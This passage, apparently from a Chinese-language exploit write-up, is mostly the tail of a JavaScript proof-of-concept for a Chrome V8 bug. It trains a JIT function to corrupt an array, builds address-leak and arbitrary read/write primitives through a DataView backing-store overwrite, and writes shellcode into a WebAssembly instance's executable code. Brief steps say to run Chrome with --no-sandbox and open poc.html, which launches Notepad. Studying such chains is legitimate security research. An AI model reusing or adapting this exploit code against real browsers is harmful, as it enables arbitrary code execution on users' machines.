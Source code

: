```
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>

```



控制台输入chrome.exe路径 加上--no-sandbox

![image-20210420133243340](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420133243340.png)

打开poc.html,自动弹出记事本

![image-20210420134138363](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420134138363.png)
